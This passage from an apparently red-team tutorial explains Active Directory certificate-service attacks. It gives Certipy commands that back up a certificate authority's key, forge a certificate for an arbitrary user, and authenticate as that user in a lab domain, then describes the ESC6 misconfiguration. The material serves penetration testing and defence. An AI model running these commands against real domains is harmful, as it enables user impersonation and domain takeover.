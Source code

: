 You can now use tools like [ForgeCert](https://github.com/GhostPack/ForgeCert) or Certipy to go on.

#### Certipy

As for mostly all cases, Oliver automated the abuse capability in Certipy. If you owned a user which is admin on the CA just do:  

Backup the CA cert  
```
certipy ca -backup -u 'localadmin' -p 'test' -target 'dc2016-2.mcafeelab.local' -ca 'mcafeelab-DC2016-2-CA-1'
```  

Forge a cert to whom we want to:  
```
certipy forge -ca-pfx mcafeelab-DC2016-2-CA-1.pfx -upn god@mcafeelab.local -subject 'CN=god,CN=Users,DC=mcafeelab,DC=local'
```

And authenticate as that user:  
```
certipy auth -pfx 'god_forged.pfx' -dc-ip '10.55.0.2'
```

<img src="/images/2022-09-16/esc5_exploit3.png"> 

## ESC6  

Here we are talking about a CA specific setting which is the ``EDITF_ATTRIBUTESUBJECTALTNAME2`` flag.  
This setting allows us, even when the template is set to build the subject name from the AD object, to specify a Subject Alternative Name.  
This also means, that EVERY template for authentication is pwnable, when this flag is set.  
This was fixed by Microsoft in the patch for CVE-2022–26923 (may still be worth looking for).  
  